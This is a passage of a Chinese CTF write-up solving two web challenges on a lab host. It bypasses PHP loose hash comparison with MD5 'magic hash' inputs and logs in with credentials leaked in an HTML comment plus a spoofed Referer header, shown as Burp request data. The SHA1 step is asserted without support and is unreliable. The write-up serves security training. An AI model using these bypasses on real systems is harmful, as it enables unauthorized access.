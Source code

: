 查阅得知，[PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0](https://muouim.github.io/2019/01/30/MD5%E7%A2%B0%E6%92%9E/)。任意选用一对值：
```
a=s878926199a
b=s155964671a
```
网页给出第二段代码：
```php
if (isset($_GET['c']) and isset($_GET['d'])) {
  if ($_GET['c'] != $_GET['d']) {
    if (sha1($_GET['c']) == sha1($_GET['d'])) {
      $quests[1] = True;
    }
  }
}
if ($quests[0] && $quests[1]) {
  echo $flag;
}
```
阅读可知，题目要求继续传入字符串c与字符串d，满足以下两个条件
- 两个字符串不相同
- 两个字符串的SHA1值相同  

不多说，再次利用上题，得到flag：`tjctf{pHp_i$_th3_8E5T_1@NgUAGe}`

### 3.2 TongjiAdmin
赛题为一登录页面，查看源码，发现注释
```html
<!-- 以防忘记： Admin:admin. -->
<!-- 我才不担心有人发现这个注释。让那些可恶的黑客们知道了登陆信息又怎样，反正只有通过同济的网站才能登陆。 -->
```
尝试使用Admin:admin登录，页面给出信息`Curse you, Hacker!`，考虑信息中的“通过同济的网站”。   
再次打开页面，进行登录，使用Burp进行Intercept，观察请求头：
```
POST /index.php HTTP/1.1
Host: 10.10.175.98:20080
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.175.98:20080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.175.98:20080/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=Admin&password=admin
```
结合注释给出的提示，联想到将Referer项的值改为`http://tongji.edu.cn`，发送至Repeater，Send请求，即可看到Response中包含的flag：`tjctf{F4nCY_W38$17E_P0Or_SecUr1TY}`
